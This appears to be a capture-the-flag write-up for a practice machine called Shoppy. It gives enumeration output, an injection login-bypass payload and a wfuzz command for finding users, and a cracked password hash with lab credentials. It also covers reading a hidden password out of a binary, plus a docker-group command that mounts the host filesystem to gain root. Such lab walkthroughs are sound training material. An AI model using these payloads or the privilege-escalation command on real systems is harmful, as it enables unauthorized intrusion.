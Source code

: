IP: 10.10.11.180
# Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/shoppy 10.10.11.180
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-09 23:34 EST
Nmap scan report for 10.10.11.180
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Hostname: shoppy.htb
## Webapp
## Site 1
Login page at shoppy.htb/login
Bypass authentication with sqli
```sql
'||'1==1
```
which can enumerate users.
```bash
wfuzz -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ'||'1==1&password=password" --hh 51 http://shoppy.htb/login
```
Found 2 valid users.
Josh and admin.

You can get the user's hashes. from the search button on the website.
josh:6ebcea65320589ca4f2f1ce039975995
Looks like a md5sum which cracks to remembermethisway
Try to ssh onto the box, but it doesn't work.
## Site 2
Check for subdomains.
```bash
wfuzz -w /usr/share/seclists/Discovery/DNS/bitquark-subdomain-top100000.txt --hh 169 -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb"
```
Result of mattermost.

In one of the channels there is talk about docker and creds for jaeger.
```
jaeger:Sh0ppyBest@pp!
```
# Foothold
ssh onto the box: 
User flag: 
```
00205ca0b36ca0c118f497536ca0d354
```
Check sudo -l 
can run /home/deploy/password-manager as deploy

## Reversing the binary (very badly)
cat the binary, and manually check for strings.
```
���H�]���UH��H���}��u��}�u2�}���u)H�=�.�����H�u,H�5�.H��+H���/������UH���������]��AWL�=W)AVI��AUI��ATA��UH�-P)SL)�H�����H��t�L��L��D��A��H��H9�u�H�[]A\A]A^A_��H�H��Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !
```
If you run the application 
```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: apples?
Access denied! This incident will be reported !
```
The 'Sample' string doesn't show.
Trying that as the password works!
```txt
Deploy Creds :
username: deploy
password: Deploying@pp!
```
## An aside
A cleaner way would be to run `strings -el ./password-manager`. You have to use the -el flag cause of how the password is created in the source code. It will append a null byte to each letter causing strings to miss it.
```
std::string master_password = "";
    master_password += "S";
    master_password += "a";
    master_password += "m";
    master_password += "p";
    master_password += "l";
    master_password += "e";
```
Or the binary in hex:
```
00002050: 2070 6173 7377 6f72 643a 2000 0053 0061   password: ..S.a
00002060: 006d 0070 006c 0065 0000 0000 0000 0000  .m.p.l.e........
```

# Priv esc
Switch user
```bash
su deploy
```

Running `id` shows that deploy is part of the docker group.
GTFObins has a docker privesc
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt bash
```
This will mount the host file system within the docker container and run it as root.

root flag: 
```
981640e1702857397b42e654b62d6423
```

